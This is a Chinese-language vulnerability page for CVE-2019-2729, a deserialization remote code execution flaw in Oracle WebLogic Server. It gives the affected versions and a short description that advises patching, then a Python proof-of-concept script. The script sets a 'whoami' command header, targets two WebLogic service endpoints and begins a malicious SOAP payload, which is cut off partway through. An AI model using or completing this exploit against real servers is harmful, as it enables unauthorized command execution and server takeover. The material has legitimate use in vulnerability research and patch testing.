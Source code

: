 # CVE-2019-2729 Oracle WebLogic Server远程代码执行漏洞 #
## 受影响版本 ##
Oracle WebLogic Server 10.3.6.0.0 , Oracle WebLogic Server 12.1.3.0.0 , Oracle WebLogic Server 12.2.1.3.0
## 平台 ##
windows 、 linux 等多平台
## 测试系统 ##
ubuntu
## 类型 ##
远程
## 描述 ##
CVE-2019-2729漏洞是对CVE-2019-2725漏洞补丁进行绕过，形成新的漏洞利用方式，属于CVE-2019-2725漏洞的变形绕过。

与CVE-2019-2725漏洞相似，CVE-2019-2729漏洞是由于应用在处理反序列化输入信息时存在缺陷，攻击者可以通过发送精心构造的恶意 HTTP 请求，用于获得目标服务器的权限，并在未授权的情况下执行远程命令，最终获取服务器的权限。针对此漏洞，官方已经发布补丁，所以强烈建议受到影响的用户尽快下载官方最新补丁，以防服务器处于高风险之中。
## POC ##
<pre class="prettyprit lang-javascript">
import logging
import sys
import time

import requests

logging.basicConfig(filename=&#x27;Weblogic.log&#x27;,
                    format=&#x27;%(asctime)s %(message)s&#x27;,
                    filemode=&quot;w&quot;, level=logging.INFO)

VUL=[&#x27;CVE-2019-2729&#x27;]
headers = {&#x27;user-agent&#x27;: &#x27;ceshi/0.0.1&#x27;, &#x27;content-type&#x27;: &#x27;text/xml&#x27;, &#x27;cmd&#x27;: &#x27;whoami&#x27;}


path1 = &#x27;/wls-wsat/CoordinatorPortType&#x27;
path2 = &#x27;/_async/AsyncResponseService&#x27;

payload1 = &#x27;&#x27;&#x27;
&lt;soapenv:Envelope xmlns:soapenv=&quot;http://schemas.xmlsoap.org/soap/envelope/&quot; xmlns:wsa=&quot;http://www.w3.org/2005/08/addressing&quot; xmlns:asy=&quot;http://www.bea.com/async/AsyncResponseService&quot;&gt;
   &lt;soapenv:Header&gt;
 &lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;
&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt;
&lt;work:WorkContext xmlns:work=&quot;http://bea.com/2004/06/soap/workarea/&quot;&gt;
&lt;java&gt;
&lt;array method=&quot;forName&quot;&gt;&lt;string&gt;oracle.toplink.internal.sessions.UnitOfWorkChangeSet&lt;/string&gt;&lt;void&gt;
